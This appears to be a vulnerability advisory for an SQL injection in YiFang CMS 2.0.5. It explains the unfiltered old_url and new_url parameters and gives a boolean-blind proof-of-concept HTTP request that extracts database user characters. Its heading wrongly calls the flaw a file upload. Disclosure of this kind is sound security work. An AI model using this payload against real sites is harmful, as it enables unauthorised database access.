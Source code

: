 # Vendor

YiFang

# Product

YiFang CMS

# version

 2.0.5

# Download 

https://www.yifangcms.com

# Vulnerability

Yifang latest version 2.0.5 can be uploaded at any file

# Description

The content entered by the user is not filtered, causing the user to perform SQL injection by constructing malicious commands.

# Analysis

Cause of vulnerability 
app/logic/L_tool.php
1. Directly splice user input: $dataObj->request->old_url and $dataObj->request->new_url directly embed SQL statements
2. Lack of parameterization processing: preprocessing statements or escape special characters
3. Inadequate verification: Parameter verification (validatorRequest) only checks the existence of fields, and does not filter dangerous characters

<img width="1497" height="409" alt="image" src="https://github.com/user-attachments/assets/0a23706c-076d-476e-ab8d-bd48ab53ab2e" />

Use boolean blind to prove the vulnerability: 

Test found that the first digit of user() is r
<img width="1030" height="396" alt="image" src="https://github.com/user-attachments/assets/ce0199ba-ba2c-44fd-a583-eb056c3f26fd" />

<img width="1027" height="425" alt="image" src="https://github.com/user-attachments/assets/bf22cc3d-2a62-46ed-8ef4-9a3a9e20cb40" />


# POC
```
POST /admin/tool/replaceSiteUrl HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: Mozilla/5.0
Cookie: cms_session=grq61ku3fmt3v3ll42dg028i66
Content-Type: application/x-www-form-urlencoded
Content-Length: 89

old_url=http://localhost&new_url='%2b(SELECT+IF(SUBSTRING(USER(),1,1)='r','b',0x00))%2b'&
```
